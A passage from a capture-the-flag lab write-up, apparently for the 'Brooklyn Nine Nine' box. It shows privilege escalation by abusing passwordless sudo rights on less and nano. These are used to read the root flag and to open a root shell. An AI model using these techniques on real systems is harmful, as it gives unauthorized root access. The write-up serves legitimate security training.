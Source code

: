 ###Jake
Let's check what command Jake can run with sudo
{% highlight console %}
jake@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less

{% endhighlight %}

With `less` we can just read `root.txt`
{% highlight console %}
jake@brookly_nine_nine:/~$ sudo /usr/bin/less /root/root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: [root flag]

Enjoy!!

{% endhighlight %}

Or we can gain shell as root using [gtfobins](https://gtfobins.github.io/gtfobins/less/)
{% highlight console %}
jake@brookly_nine_nine:~$ sudo /usr/bin/less /etc/profile
# whoami
root
# hostname
brookly_nine_nine

{% endhighlight %}

### Holt
Let's check what command Holt can run with sudo
{% highlight console %}
holt@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano

{% endhighlight %}

And same situation here, we can just read `root.txt` with `nano`
{% highlight console %}
holt@brookly_nine_nine:~$ sudo /bin/nano /root/root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: [root flag]

Enjoy!!

{% endhighlight %}
